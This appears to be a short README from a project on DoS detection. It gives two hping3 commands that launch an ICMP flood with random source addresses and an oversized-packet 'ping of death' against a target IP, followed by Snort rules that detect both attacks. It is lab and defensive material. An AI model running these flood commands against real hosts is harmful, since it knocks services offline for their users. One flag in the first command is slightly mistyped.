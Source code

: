 ## Run the DoS attack using hping3

```
sudo hping3 -1 -i u100 -c 100000 - rand-source {target_ip}
```

or 

```
sudo hping3 -1 -d 15000 -c 10 {target_ip}
```

## DOS ATTACK DETECTION
[DOS ATTACK DETECTION](https://github.com/maj0rmil4d/snort-ddos-mitigation/blob/main/dos.rules)

```
alert icmp !$HOME_NET any -> $HOME_NET any (msg:"Possible ICMP DDoS"; threshold: type both, track by_dst, count 100000, seconds 10; sid:100006;rev:1;)

#PING OF DEATH DETECTION
alert icmp any any -> $HOME_NET any (msg:"Possible Ping of Death"; dsize: > 10000; sid:555555;rev:1;)
```

